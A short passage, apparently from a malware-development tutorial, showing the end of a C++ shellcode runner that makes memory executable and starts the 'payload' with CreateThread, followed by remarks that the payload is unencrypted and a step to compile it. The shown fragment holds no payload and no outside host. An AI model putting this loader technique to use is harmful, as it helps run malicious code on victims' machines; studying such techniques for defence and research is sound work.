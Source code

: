 ```cpp
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

So this code contains very basic logic for executing payload. So in this case, for simplicity, it's not encrypted payload, it's plain payload.    

![payload](./images/3/2021-09-06_16-31.png){width="80%"}    

Let's compile it:    

![compile](./images/3/2021-09-06_16-45.png){width="80%"}    
